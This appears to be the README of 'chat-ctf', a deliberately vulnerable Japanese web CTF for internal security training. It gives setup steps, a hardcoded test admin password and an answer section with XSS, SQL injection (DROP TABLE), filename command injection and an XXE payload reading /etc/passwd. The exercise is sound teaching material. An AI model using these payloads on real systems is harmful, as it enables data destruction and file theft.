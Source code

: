# chat-ctf (公開サーバでの利用はしないでください)
chatアプリケーション風WebCTFサイト。
内部ネットワーク内での利用を想定した、セキュリティ教材です。

## 依存
- docker-compose
- mkcert
- sqlite3

## 起動手順

```sh
$ git clone https://github.com/TakuKitamura/chat-ctf.git
$ cd chat-ctf
$ sudo docker compose up -d # サーバを停止する場合は、$ sudo docker compose down
$ vim src/.env.development # 適切なものを設定。
$ # IPは、サーバのIPアドレス
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ vim src/.env.production # 適切なものを設定
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ cd src
$ ./setup-db.sh # Admin/Adm1nAdm1n というテストアカウントも追加されます。
$ mkcert 192.168.1.x
$ cd ..
$ sudo docker compose exec app yarn install
$ sudo docker compose exec app yarn build && sudo docker compose exec app yarn start # 本番向け
$ # or
$ sudo docker compose exec app yarn dev # 開発向け
```
https://192.168.1.x/login でログインできます。

https://192.168.1.x/signup でアカウントを作成できます。

CSVファイルからのアカウント一括作成も可能です。

```sh
$ vim /tmp/user.csv # 一例
UserID,Password,IconURL
Test1,Maixuo7p,https://example.com/1.jpg
Test2,eoch2ieP,https://example.com/2.jpg
$ cd chat-ctf/src
$ ./add-users.sh -f /tmp/user.csv -i 192.168.1.x
```

### Adminアカウント専用機能
- Adminアカウント(`Admin/Adm1nAdm1n`)でログインし、適当なテキストボックスで`/reset-chat`と入力するとchatデータがDBから削除される。画面更新をすると、chat履歴が消えていることを確認できる。

<details>

<summary>問題の回答</summary>

### Echo Bot [XSS]

ブラウザのDeveloper ToolでUser Agentを下記のように変更。
```
"><img src=x onerror="alert()"><!--
```

そして、適当なメッセージを入力し送信する。

### アーティスト検索 Bot [SQL Injection]

下記のメッセージを入力し送信する。
```
search=santana
n='; DROP TABLE user; --
```

### グレースケール変換 Bot [OS Command Injection]

アップロードする画像のファイル名を例えば以下に変え、アップロードする。
```
example`sleep 3`.jpg
```

### FizzBuzz Bot [XSS]

https://192.168.1.x?q=%3Cimg%20src=%22x%22%20onerror=%22alert()%22%3E

というようなURLにアクセスした上で、下記メッセージを入力し送信する。
```
n=200
```

### Excel解析 Bot [XXE]

適当なGoogleスプレッドシートを作成し、Microsoft Excel形式でダウンロード。ファイル名をexample.xlsxとする。
以下のように細工したファイルを作成する。

```sh
$ mkdir tmp
$ mv example.xlsx tmp
$ cd tmp
$ unzip example.xlsx
$ ls
[Content_Types].xml  _rels  example.xlsx  xl
$ cat xl/sharedStrings.xml # 出力結果は例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>AAA</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ vim xl/sharedStrings.xml # 例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>&xxe;</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ zip -r crafted.xlsx '[Content_Types].xml' _rels xl
  adding: [Content_Types].xml (deflated 71%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 40%)
  adding: xl/ (stored 0%)
  adding: xl/workbook.xml (deflated 58%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 64%)
  adding: xl/worksheets/_rels/ (stored 0%)
  adding: xl/worksheets/_rels/sheet1.xml.rels (deflated 40%)
  adding: xl/drawings/ (stored 0%)
  adding: xl/drawings/drawing1.xml (deflated 66%)
  adding: xl/styles.xml (deflated 61%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 78%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 66%)
  adding: xl/sharedStrings.xml (deflated 26%)
```

そして、crafted.xlsxをアップロードする。

</details>

---

# Bot問題追加ガイド

チャット形式CTFの各問題を `src/lib/bots/bot<number>.ts` の形式で実装しています。  
新しい問題を追加する際は、以下のルールに従ってください。

## 1. ファイル命名規則

- ファイル名は `bot1.ts`, `bot2.ts`, `bot3.ts` のように連番で命名します。
- 重複しない番号を使用してください。
- ファイル内のロジックで、問題に正解した場合は `gotFlag: true` を返すようにしてください。

## 2. Bot関数の構成

すべての Bot ファイルは、以下のように `default export` される `async` 関数を定義します。

```ts
import { BotHandlerArgs } from './types';
const escape = require('escape-html');

export default async function bot({
  req,
  message,
  file
}: BotHandlerArgs) {
  return {
    gotFlag: false,
    html: escape("出力メッセージ")
  };
}
```

戻り値の構造：

```ts
{
  gotFlag: boolean, // 正解時 true、不正解時 false
  html: string      // 表示するHTML文字列（ユーザ由来の入力は、escape必須）
}
```

## 3. 入力とユーティリティ関数

### BotHandlerArgs

すべての Bot は以下の引数を受け取ります：

- `req: NextApiRequest` - HTTPリクエストオブジェクト
  - https://www.jsdocs.io/package/next#NextApiRequest
- `message: string` - ユーザが送信したメッセージ
- `file: File` - ファイル情報（ファイルがアップロードされていなければ、undefined）
  - https://www.jsdocs.io/package/@types/formidable#File

### validCheckEnv の使い方

クエリ形式の `message` をパース・バリデーションする際には、共通ユーティリティ `validCheckEnv()` を使ってください。

```ts
import { validCheckEnv } from 'lib/ctf';

const result = validCheckEnv(message, ['key1', 'key2']);

if (!result.valid) {
  return {
    gotFlag: false,
    html: '<h3>Invalid Format</h3>'
  };
}

const key1 = result.params.key1;
const key2 = result.params.key2;
```

この関数は以下の形式のメッセージをパースします：

```
key1=value1&key2=value2
```

指定されたキーがすべて存在するかをチェックし、不正な形式であれば `valid: false` を返します。

## 4. Ctfテーブルへの登録

Bot を追加したら、対応するエントリを `Ctf` テーブルに追加してください。

### 対象ファイル

- `src/migrations/003-ctf.sql` を編集します。

### レコード追加形式

```sql
INSERT INTO Ctf (id, title, template, attachmentButton)
VALUES (<bot番号>, '<問題タイトル>', '<初期入力テンプレート>', <true|false>);
```

- `id`: `bot<number>.ts` の `<number>` と一致させること。
- `title`: チャットUIに表示される問題名。
- `template`: 入力フォームに事前表示される文字列（HTML可）。
- `attachmentButton`: ファイルアップロード用ボタンを表示するかどうか（`true` または `false`）。

### 反映方法

編集後は必ず、以下のスクリプトを実行してDBを再セットアップしてください：

```bash
$ cd src
$ ./setup-db.sh
```

これにより、CTF UI に新しい Bot が表示されます。
